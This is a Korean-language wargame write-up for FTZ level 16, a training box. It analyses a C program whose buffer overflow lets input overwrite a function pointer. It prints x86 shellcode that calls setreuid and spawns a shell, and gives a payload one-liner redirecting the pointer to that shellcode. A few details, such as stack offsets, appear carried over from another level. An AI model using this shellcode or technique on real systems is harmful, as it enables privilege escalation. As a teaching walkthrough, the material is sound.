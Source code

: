 ```yaml
---
title: BOF/ ftz-level16
tags: ftz
---
```


16번 포스팅 시작합니다.

FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 16
**ID : level16**  
**PASSWD : king poetic**         

<br />
{% highlight C linenos %}  
#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
15번과 비슷하지만 shell을 실행시켜주는 함수가 없다.  
따라서 void포인터 call에 쉘코드가 저장된 환경변수의 주소를 변조하도록 공격한다.  

<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level13에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level17/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 esp에 56Byte의 공간을 할당하는것을 알 수 있다.  
main+24,27 line을 보면 fgets함수에 buf를 인자로 전달하기 위한 연산을 수행하고 있음을 알 수 있다.  
따라서 buf의 주소는 ebp-56.  
main+57 line을 보면 eax를 call하기 위해 ebp-16을 eax에 대입하고 있다.  
소스를 보면 eax는 void포인터 call임을 알 수 있다. 따라서 ebp-16은 void포인터 call.  
buf와 call사이의 거리는 56-16 = 40Byte buf의 크기가 20Byte이므로 dummy값이 20Byte가 있다.   
<br />
ebp는 stack base pointer로 stack의 최하단을 가리키는 포인터로 스택이 소멸되기 전까지 값이 변하지 않는다.  
스택은 높은 주소에서 낮은 주소로 자라는 특성을 가지고 있으므로 ebp-1048이 ebp-12보다 상단에 위치함을 알 수 있다.  

buf와 i사이에 12Byte의 dummy가 있고, 스택에 할당된 총 공간이 1048Byte이므로 메모리 구조는 아래와 같다.  

**참고**  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.  


메모리구조|
---|
buffer(20Byte)|
dummy(20Byte)|
call(4Byte)|
crap(4Byte)|
dummy(8Byte)|
sfp(4Byte)|
ret(4Byte)| 

<br />
![그림2](/assets/ftz/level17/2.PNG)  
쉘코드를 담은 환경변수를 만들어준다.  

<br />
![그림3](/assets/ftz/level17/3.PNG)  
기존의 환경변수 주소 얻는 코드이다.  하지만 이 소스는 정확한 주소를 얻을 수 없는 경우가 있는데 아래 그림을 보자.  

<br />
![그림4](/assets/ftz/level17/4.PNG)  
위와 같이 환경변수 주소를 얻는 소스를 실행시켜보지만 소스를 실행시키는 위치에 따라 다른 주소가 출력되는것을 볼 수 있다.  

**환경변수의 주소는 bf로 시작한다. 즉, 프로그램이 실행되면 환경변수의 데이터들이 스택 어딘가에 들어간다.**  
**따라서 프로그램 이름의 길이나 명령어의 길이등에 따라 환경변수의 주소가 바뀐다.**  

<br />
![그림5](/assets/ftz/level17/5.PNG)  
위의 소스는 프로그램명과 타깃 바이너리의 절대경로 등을 계산하여 정확한 주소값을 출력하는 소스이다.  

<br />
![그림6](/assets/ftz/level15/6.PNG)  
전에 사용하던 소스와 달리 프로그램을 실행하는 경로에 따라 출력되는 주소가 다른 경우는 발생하지 않는다.  
첫 번째 인자로는 환경변수의 이름, 두 번째 인자로는 타겟 바이너리 파일의 절대경로를 전달한다.  

<br />
![그림7](/assets/ftz/level17/7.PNG)  
위에서 얻은 환경변수의 정확한 주소로 페이로드를 작성하여 공격한다.  
void포인터 call이 포인팅하는 주소를 쉘코드가 담긴 환경변수의 주소를 포인팅하도록 한다.  

<br />

#### 페이로드
(python -c "print 'A'*40 + '\xfd\xfb\xff\xbf'";cat) | /home/level17/attackme

